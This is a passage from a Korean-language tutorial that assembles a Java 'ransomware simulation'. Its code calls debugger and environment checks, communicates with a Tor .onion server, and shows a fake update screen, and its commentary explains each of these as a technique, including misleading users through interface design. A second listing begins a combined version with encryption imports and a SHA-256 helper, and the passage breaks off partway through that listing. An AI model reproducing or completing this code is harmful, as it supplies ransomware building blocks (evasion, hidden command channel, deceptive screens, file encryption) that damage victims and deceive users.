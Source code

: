 ### 통합 코드 예제  
위 모든 기능을 하나의 메인 코드로 통합한다.  

```java
public class RansomwareSimulationWithTor {
    public static void main(String[] args) {
        try {
            System.out.println("Starting ransomware simulation...");

            // 1. 실행 환경 체크
            EnvironmentCheck.checkEnvironment();

            // 2. Tor 네트워크 통신 시뮬레이션
            TorCommunication.communicateWithTorServer("http://example.onion");

            // 3. UI/UX 기만 (업데이트 화면 표시)
            FakeUI.showFakeUpdateScreen();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```  

### 알아가면 좋은것들  
1. Tor 통신:  
   - Tor Proxy를 설정하여 익명 네트워크 요청을 보내는 방식 이해.  
2. 실행 환경 체크:  
   - 시스템 프로퍼티와 프로세스를 통해 디버거와 시스템 상태를 확인.  
3. UI/UX 기만:  
   - 사용자 인터페이스 설계를 통해 사용자를 오도하는 방법.  

이제, 앞선 코드들을 하나의 코드로 합쳐보자.  

```java
import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;
import javax.swing.*;
import java.io.*;
import java.nio.file.*;
import java.security.MessageDigest;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.List;
import java.util.stream.Collectors;
import org.apache.http.HttpHost;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClients;

public class RansomwareSimulationWithTor {

    // SHA-256 해시 함수
    public static String hashWithSHA256(String input) throws Exception {
        MessageDigest digest = MessageDigest.getInstance("SHA-256");
        byte[] hash = digest.digest(input.getBytes("UTF-8"));
        StringBuilder hexString = new StringBuilder();
        for (byte b : hash) {
            String hex = Integer.toHexString(0xff & b);
            if (hex.length() == 1) hexString.append('0');
            hexString.append(hex);
```